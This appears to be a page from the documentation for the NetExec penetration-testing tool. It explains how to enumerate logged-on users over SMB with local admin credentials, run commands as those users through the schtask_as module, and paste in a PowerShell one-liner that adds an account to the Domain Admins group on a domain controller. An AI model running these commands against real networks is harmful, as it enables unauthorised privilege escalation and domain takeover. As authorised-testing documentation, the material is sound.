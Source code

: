 ```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# Impersonate logged-on Users



{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module schtask\_as can execute commands on behalf on other users which has sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

Custom command to add an user to the domain admin group for easy copy\&pasting:&#x20;

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
